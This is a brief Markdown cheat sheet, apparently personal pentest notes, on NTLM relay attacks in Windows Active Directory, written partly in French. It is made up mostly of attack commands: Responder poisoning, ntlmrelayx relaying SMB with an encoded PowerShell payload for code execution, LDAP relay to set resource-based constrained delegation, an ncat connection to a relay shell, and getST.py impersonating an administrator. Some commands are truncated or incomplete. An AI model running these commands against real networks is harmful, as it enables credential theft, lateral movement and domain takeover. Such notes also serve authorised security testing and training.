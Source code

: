 ```yaml
---
title: "Ntlm Relay"
description: ""
summary: ""
date: 2023-09-07T16:06:50+02:00
lastmod: 2023-09-07T16:06:50+02:00
draft: false
weight: 800
toc: true
seo:
  title: "" # custom title (optional)
  description: "" # custom description (recommended)
  canonical: "" # custom canonical URL (optional)
  robots: "" # custom robot tags (optional)
---
```

## Basic Ntlm relay
- Get a code execution , after relaying smb :
```sh
#need to admin privileges
sudo ntlmrelayx --no-http-server -smb2support -t 192.168.50.212
-c "powershell -enc JABjAGwAaQBlAG4AdA..."
```

- a appliquer en lan 
```sh 
Responder.py -I enp4s0 -wdFb
ntlmrelayx -tf target.txt -smb2support -i
```

## RBCD (http to ldap)

- RBCD : 
```sh
Responder.py -I enp4s0 -wdFb
ntlmrelayx.py -t ldap://10.2.10.11 -i -6 -wh wpad-lab
ncat -n 127.0.0.1 11000
```
`Disable SMB et HTTP` 

Assuming that our previously compromised computer account is named LA-SRV01-2019, we issue the following command to grant that account RBCD privileges over the relayed LA-WIN11-22H1-1$ account:

```sh
# set_rbcd LA-WIN11-22H2-1$ LA-SRV01-2019$
getST.py -impersonate administrator -spn 'WSMAN/LA-WIN11-22H2-1.babysteps.domain' -dc-ip 10.2.10.11 -hashes 
```
